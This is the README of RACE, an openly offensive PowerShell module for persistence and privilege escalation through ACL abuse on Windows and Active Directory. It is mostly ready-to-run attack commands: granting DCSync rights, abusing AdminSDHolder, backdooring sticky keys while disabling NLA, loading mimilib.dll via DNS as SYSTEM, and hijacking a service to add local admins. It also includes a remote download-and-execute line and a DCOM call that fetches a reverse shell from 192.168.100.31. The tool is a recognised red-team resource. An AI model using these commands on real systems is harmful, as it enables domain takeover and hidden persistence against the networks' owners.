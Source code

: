 # RACE
### RACE is a PowerShell module for executing ACL attacks against Windows targets and Active Directory. RACE can be used for persistence and on demand privilege escalation on Windows machines. 
### By [nikhil_mitt](https://twitter.com/nikhil_mitt)

### Usage

Note that RACE is a tool which is used after you have admin or DA (in case of DC) privileges. 
The introductory blog post is available here: https://www.labofapenetrationtester.com/2019/08/race.html

Import the module in current PowerShell session
```powershell
PS C:\> Import-Module C:\RACE-master\RACE.psd1
```
Use dot sourcing
```powershell
PS C:\> . C:\RACE-master\RACE.ps1
```
Download and execute
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/RACE/master/RACE.ps1')
```

Get help about any function
```powershell
PS C:\> Get-Help Set-DCPermissions -Full
```
### Functions

Note that the functions Set-ADACL and Set-DCPermissions need Microsoft ActiveDirectory module. You can get it from a DC or from my GitHub: https://github.com/samratashok/ADModule

### Set-RemotePSRemoting
Use this function to modify ACL of PowerShell Remoting endpoint so that you can access the target machine without admin.
```powershell
PS C:\> Set-RemotePSRemoting -SamAccountName labuser -ComputerName ops-dc
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting.

```powershell
PS C:\> Set-RemotePSRemoting -SamAccountName labuser -ComputerName ops-dc -Credential ops\administrator
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting using explicit credentials.

### Set-RemoteWMI
Use this function to modify ACL of DCOM endpoint and all the namespaces so that you can access the target machine without admin.
```powershell
PS C:\> Set-RemoteWMI -SamAccountName labuser -ComputerName ops-dc
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting.

### Set-RemoteServicePermissions and Set-RemoteServiceAbuse
Use these tmodify ACLs of services on windows machines. 

```powershell
PS C:\> Set-RemoteServicePermissions -SamAccountName labuser -ComputerName ops-mssql -ServiceName ALG -Verbose
```
Use the above command to modify ACL of 'ALG' service on ops-mssql to allow labuser to modify the service (gives 'CCDCLCSWRPWPDTLOCRSDRCWDWO' rights)

```powershell
PS C:\> Set-RemoteServiceAbuse -ComputerName ops-mssql -UserName 'labuser' -ServiceName ALG -Verbose
```
Run the above command as 'labuser' to configure ALG to run as SYSTEM and modify its executable path to add 'labuser'
or other Principal provided in the UserName parameter to the local administrators group on the target machines. 

```powershell
PS C:\> sc.exe \\ops-mssql start ALG
```
Run the above command as 'labuser' to execute the payload set as executable of ALG

### Set-RemoteRegistryPermissions
Function which can be used to modify permissions of Remote Registry by modifying a registry key on local or remote machine.

```powershell
PS C:\> Set-RemoteRegistryPermissions -SamAccountName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to modify permissions of the 'Remote Registry' key on the target machine to allow 'labuser' 
access to Remote Registry. 

### Set-RegistryImageFileExecution and Invoke-RegistryAbuse
Set-RegistryImageFileExecution mdifies the Permissions for the registry key 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options' and 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp'.

```powershell
PS C:\> Set-RegistryImageFileExecution -SamAccountName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to modify permissions of the 'Image File Execution Options' key on the target machine to allow 'labuser' 
permissions to modify the key and its subkeys. 
```powershell
PS C:\> Invoke-RegistryAbuse -ComputerName ops-mssql -Method ImageFileExecution -Verbose 
```
Above command sets payload for sethc (sticky keys) and disables NLA.

### Set-DCOMPermissions and Invoke-DCOMAbuse
Set-DCOMPermissions can be used to modify ACLs of DCOM provide non-admin Principals access to DCOM.

```powershell
PS C:\> Set-DCOMPermissions -UserName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to add permissions on the target machine for labuser to execute commands using DCOM.
Then use Invoke-DCOMAbuse as labuser to run commands:
```powershell
Invoke-DCOMAbuse -ComputerName ops-build -Method MMC20 -Arguments 'iex(iwr -UseBasicParsing http://192.168.100.31:8080/Invoke-PowerShellTcp.ps1)'
```

### Set-JEAPermissions
Function which can be used to create a new JEA endpoint for PowerShell remoting to provide access for non-admin Principals. 
```powershell
PS C:\> Set-JEAPermissions -ComputerName ops-build -SamAccountName labuser -Verbose 
```
Use the above command to create a new JEA endpoint on the target machine which provides administrator privileges. 

Use the below command to connect to the target machine. Note the -ConfigurationName parameter:
```powershell
PS C:\> Enter-PSSession -ComputerName ops-build -ConfigurationName microsoft.powershell64 
```

### Set-ADACL
The function can set ACL of a domain object specified by TargetSamAccountName or DistinguishedName.

It requires Microsoft's Active Directory module. You either need the AD RSAT tools (available on DC) or get the module 
from here: https://github.com/samratashok/ADModule

```powershell
PS C:\> Set-ADACL -SamAccountName labuser -DistinguishedName 'DC=powershell,DC=local' -GUIDRight DCSync -Server powershell.local -Verbose
```
Use the above command to modify ACL of the domain object powershell.local to add DCSync rights for 'labuser'.

### Set-DNSAbusePermissions and Invoke-DNSAbuse
Use Set-DNSAbusePermissions to modify ACL of DNS Server Object and permissions for the DNS service.
```powershell
PS C:\> Set-DNSAbusePermissions -SAMAccountName labuser -DistinguishedName 'CN=MicrosoftDNS,CN=System,DC=offensiveps,DC=powershell,DC=local' -ComputerName ops-dc -Verbose
```
Use the above command to modify ACL of DNS Server to add permissions for labuser so that it can remotely load DLLs as SYSTEM on the DNS Server.

Use the below command (needs DNS Server module that is available with DNS RSAT) to load the DLL.
```powershell
PS C:\> Invoke-DNSAbuse -ComputerName ops-dc -DLLPath \\ops-build\dll\mimilib.dll -Verbose 
```

### Set-DCPermissions
Function to modify ACL of domain objects for specific attacks.
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName labuser -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=offensiveps,DC=powershell,DC=local' -Verbose 
```
Use the above command to modify ACL of the AdminSDHolder to allow labuser permissions to modify ACL of AdminSDHolder.
Using these permissions, labuser can change ACL of AdminSDHolder and get rights over all the Protected Groups.

```powershell
Set-DCPermissions -Method RBCD -DistinguishedName 'CN=OPS-FILE,OU=Servers,DC=offensiveps,DC=powershell,DC=local' -SAMAccountName labuser -Verbose 
```
Use the above command to modify ACL of OPS-FILE$ user to add permissions for labuser to configure Resource-based Constrained Delegation.

### Set-DCShadowPermissions
Function to modify ACL of multiple domain objects to allow DCShadow execution without Domain Admin privilges

```powershell
PS C:\> Set-DCShadowPermissions -FakeDC emptest -SAMAccountName testuser -Username privuser -Verbose 
Use the above command to modify ACLs to run DCShadow from ps-paw machine as privuser against testuser.
```
### Bugs, Feedback and Feature Requests
Please raise an issue if you encounter a bug or have a feature request.\

### Contributing
You can contribute by fixing bugs or contributing to the code. If you cannot code, please use the tool and provide feedback and bugs!

### Supporting material

The introductory blog post is available here: https://www.labofapenetrationtester.com/2019/08/race.html
The above post contains slides and videos for the DEF CON27 talk for this tool.
